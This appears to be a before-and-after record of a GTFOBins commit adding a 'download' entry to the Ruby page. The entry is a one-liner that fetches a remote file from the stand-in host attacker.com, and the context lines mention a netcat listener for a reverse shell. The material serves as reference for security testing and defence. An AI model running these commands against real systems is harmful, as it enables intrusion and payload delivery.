

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/ruby.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add ruby download

```diff
--- a/_gtfobins/ruby.md
+++ b/_gtfobins/ruby.md
@@ -9,6 +9,14 @@ functions:
       code: |
         export LPORT=8888
         ruby -run -e httpd . -p $LPORT
+  download:
+    - description: Fetch a remote file via HTTP GET request.
+      code: |
+        export RHOST=attacker.com
+        export RPORT=12345
+        export RFILE=/file_to_get
+        export LFILE=file_to_save
+        ruby -e 'require "net/http"; Net::HTTP.start(ENV["RHOST"], ENV["RPORT"]) { |http| r = http.get(ENV["RFILE"]); open(ENV["LFILE"], "wb") { |file| file.write(r.body) } }'
   reverse-shell-interactive:
     - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
       code: |
```
